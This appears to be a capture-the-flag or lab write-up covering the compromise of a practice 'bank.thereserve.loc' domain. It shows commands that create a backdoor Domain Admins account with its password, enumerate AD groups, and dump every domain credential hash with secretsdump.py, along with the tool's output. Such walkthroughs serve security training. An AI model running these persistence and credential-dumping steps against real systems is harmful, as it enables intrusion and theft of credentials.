

# Bank domain

## connect to the bankdc

connect to the bankDC with this fake enterprise admin account:

```shell
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:thereserve.loc /v:10.200.118.101
```

From this session, we can now create another fake user in this domain, with high privileges :

```shell
net user d1sturb3d /add M3nta11y /domain
net group "Domain Admins" d1sturb3d /add /domain
```

We can now RDP with a proper user :

```shell
proxychains xfreerdp /u:d1sturb3d /p:M3nta11y /d:bank.thereserve.loc /v:10.200.118.101
```

From this RDP session, it is now possible to open a remote session to the workstation to validate the flag



## Enumerate

Get a list of groups :

```powershell
get-adgroup -filter * | ft
```

```text
DistinguishedName                                                                GroupCategory  GroupScope Name
-----------------                                                                -------------  ---------- ----
CN=Administrators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                             Security DomainLocal Administrators
CN=Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                                      Security DomainLocal Users
CN=Guests,CN=Builtin,DC=bank,DC=thereserve,DC=loc                                     Security DomainLocal Guests
CN=Print Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                            Security DomainLocal Print Operators
CN=Backup Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                           Security DomainLocal Backup Operators
CN=Replicator,CN=Builtin,DC=bank,DC=thereserve,DC=loc                                 Security DomainLocal Replicator
CN=Remote Desktop Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                       Security DomainLocal Remote Desktop Users
CN=Network Configuration Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc            Security DomainLocal Network Configuration Operators
CN=Performance Monitor Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                  Security DomainLocal Performance Monitor Users
CN=Performance Log Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                      Security DomainLocal Performance Log Users
CN=Distributed COM Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                      Security DomainLocal Distributed COM Users
CN=IIS_IUSRS,CN=Builtin,DC=bank,DC=thereserve,DC=loc                                  Security DomainLocal IIS_IUSRS
CN=Cryptographic Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                    Security DomainLocal Cryptographic Operators
CN=Event Log Readers,CN=Builtin,DC=bank,DC=thereserve,DC=loc                          Security DomainLocal Event Log Readers
CN=Certificate Service DCOM Access,CN=Builtin,DC=bank,DC=thereserve,DC=loc            Security DomainLocal Certificate Service DCOM Access
CN=RDS Remote Access Servers,CN=Builtin,DC=bank,DC=thereserve,DC=loc                  Security DomainLocal RDS Remote Access Servers
CN=RDS Endpoint Servers,CN=Builtin,DC=bank,DC=thereserve,DC=loc                       Security DomainLocal RDS Endpoint Servers
CN=RDS Management Servers,CN=Builtin,DC=bank,DC=thereserve,DC=loc                     Security DomainLocal RDS Management Servers
CN=Hyper-V Administrators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                     Security DomainLocal Hyper-V Administrators
CN=Access Control Assistance Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc        Security DomainLocal Access Control Assistance Operators
CN=Remote Management Users,CN=Builtin,DC=bank,DC=thereserve,DC=loc                    Security DomainLocal Remote Management Users
CN=Storage Replica Administrators,CN=Builtin,DC=bank,DC=thereserve,DC=loc             Security DomainLocal Storage Replica Administrators
CN=Domain Computers,CN=Users,DC=bank,DC=thereserve,DC=loc                             Security      Global Domain Computers
CN=Domain Controllers,CN=Users,DC=bank,DC=thereserve,DC=loc                           Security      Global Domain Controllers
CN=Cert Publishers,CN=Users,DC=bank,DC=thereserve,DC=loc                              Security DomainLocal Cert Publishers
CN=Domain Admins,CN=Users,DC=bank,DC=thereserve,DC=loc                                Security      Global Domain Admins
CN=Domain Users,CN=Users,DC=bank,DC=thereserve,DC=loc                                 Security      Global Domain Users
CN=Domain Guests,CN=Users,DC=bank,DC=thereserve,DC=loc                                Security      Global Domain Guests
CN=Group Policy Creator Owners,CN=Users,DC=bank,DC=thereserve,DC=loc                  Security      Global Group Policy Creator Owners
CN=RAS and IAS Servers,CN=Users,DC=bank,DC=thereserve,DC=loc                          Security DomainLocal RAS and IAS Servers
CN=Server Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                           Security DomainLocal Server Operators
CN=Account Operators,CN=Builtin,DC=bank,DC=thereserve,DC=loc                          Security DomainLocal Account Operators
CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=bank,DC=thereserve,DC=loc         Security DomainLocal Pre-Windows 2000 Compatible Access
CN=Windows Authorization Access Group,CN=Builtin,DC=bank,DC=thereserve,DC=loc         Security DomainLocal Windows Authorization Access Group
CN=Terminal Server License Servers,CN=Builtin,DC=bank,DC=thereserve,DC=loc            Security DomainLocal Terminal Server License Servers
CN=Allowed RODC Password Replication Group,CN=Users,DC=bank,DC=thereserve,DC=loc      Security DomainLocal Allowed RODC Password Replicatio...
CN=Denied RODC Password Replication Group,CN=Users,DC=bank,DC=thereserve,DC=loc       Security DomainLocal Denied RODC Password Replication...
CN=Read-only Domain Controllers,CN=Users,DC=bank,DC=thereserve,DC=loc                 Security      Global Read-only Domain Controllers
CN=Cloneable Domain Controllers,CN=Users,DC=bank,DC=thereserve,DC=loc                 Security      Global Cloneable Domain Controllers
CN=Protected Users,CN=Users,DC=bank,DC=thereserve,DC=loc                              Security      Global Protected Users
CN=Key Admins,CN=Users,DC=bank,DC=thereserve,DC=loc                                   Security      Global Key Admins
CN=DnsAdmins,CN=Users,DC=bank,DC=thereserve,DC=loc                                    Security DomainLocal DnsAdmins
CN=DnsUpdateProxy,CN=Users,DC=bank,DC=thereserve,DC=loc                               Security      Global DnsUpdateProxy
CN=Tier 2 Admins,OU=Groups,DC=bank,DC=thereserve,DC=loc                               Security      Global Tier 2 Admins
CN=Tier 1 Admins,OU=Groups,DC=bank,DC=thereserve,DC=loc                               Security      Global Tier 1 Admins
CN=Tier 0 Admins,OU=Groups,DC=bank,DC=thereserve,DC=loc                               Security      Global Tier 0 Admins
CN=Payment Approvers,OU=Groups,DC=bank,DC=thereserve,DC=loc                           Security      Global Payment Approvers
CN=Payment Capturers,OU=Groups,DC=bank,DC=thereserve,DC=loc                           Security      Global Payment Capturers
CN=SWIFT Support,OU=Groups,DC=bank,DC=thereserve,DC=loc                               Security DomainLocal SWIFT Support
```


Since we can RDP to the DC from our pivot (SSH to the web), we can do a dump of all accounts :

proxychains secretsdump.py 'bank.thereserve.loc/d1sturb3d:M3nta11y'@10.200.118.101 -outputfile bankdc.hashes

The process encouter an exception, but we get lots of accounts and hashes in bankdc.hashes.ntds :

```
...
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
Exception ignored in: <function Registry.__del__ at 0x7fb2b9e6f8b0>
Traceback (most recent call last):
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/winregistry.py", line 182, in __del__
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/winregistry.py", line 179, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/examples/secretsdump.py", line 358, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smbconnection.py", line 603, in closeFile
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 1305, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 423, in sendSMB
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 392, in signSMB
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/crypto.py", line 148, in AES_CMAC
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/Cryptodome/Cipher/AES.py", line 228, in new
KeyError: 'Cryptodome.Cipher.AES'
Exception ignored in: <function Registry.__del__ at 0x7fb2b9e6f8b0>
Traceback (most recent call last):
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/winregistry.py", line 182, in __del__
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/winregistry.py", line 179, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/examples/secretsdump.py", line 358, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smbconnection.py", line 603, in closeFile
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 1305, in close
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 423, in sendSMB
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/smb3.py", line 392, in signSMB
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/impacket/crypto.py", line 148, in AES_CMAC
  File "/root/.local/pipx/venvs/impacket/lib/python3.9/site-packages/Cryptodome/Cipher/AES.py", line 228, in new
KeyError: 'Cryptodome.Cipher.AES'
```

## access to domain hosts

Since the fake user is member of domain admins, it can access servers and workstations.


